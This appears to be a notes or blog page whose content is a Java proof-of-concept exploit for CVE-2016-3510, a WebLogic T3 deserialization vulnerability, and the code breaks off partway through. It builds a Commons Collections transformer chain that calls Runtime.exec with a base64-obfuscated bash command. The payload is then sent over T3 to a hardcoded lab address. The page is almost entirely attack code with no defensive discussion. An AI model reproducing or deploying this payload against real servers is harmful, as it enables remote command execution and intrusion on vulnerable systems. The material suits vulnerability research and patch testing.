 ![image-20240620155528596](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240620155528596.png)

```java
package com.supeream;
import com.supeream.serial.Serializables;
import com.supeream.weblogic.T3ProtocolOperation;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import weblogic.corba.utils.MarshalledObject;
import weblogic.jms.common.StreamMessageImpl;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CVE_2016_3510 {
    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public byte[] getObject() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"bash -c {echo,Y3VybCBodHRwOi8vMTkyLjE2OC4yMzYuMTMwOjQ0NDQ=}|{base64,-d}|{bash,-i}"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        final Map innerMap = new HashMap();
        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
        final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);

        final Map testMap = new HashMap();

        Map evilMap = (Map) Proxy.newProxyInstance(testMap.getClass().getClassLoader(), testMap.getClass().getInterfaces(), secondInvocationHandler);
        final Constructor<?> ctor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        final InvocationHandler handler = (InvocationHandler) ctor.newInstance(Override.class, evilMap);
        MarshalledObject marshalledObject=new MarshalledObject(handler);
        byte[] payload2 = Serializables.serialize(marshalledObject);
        T3ProtocolOperation.send("192.168.236.130", "7001", payload2);



```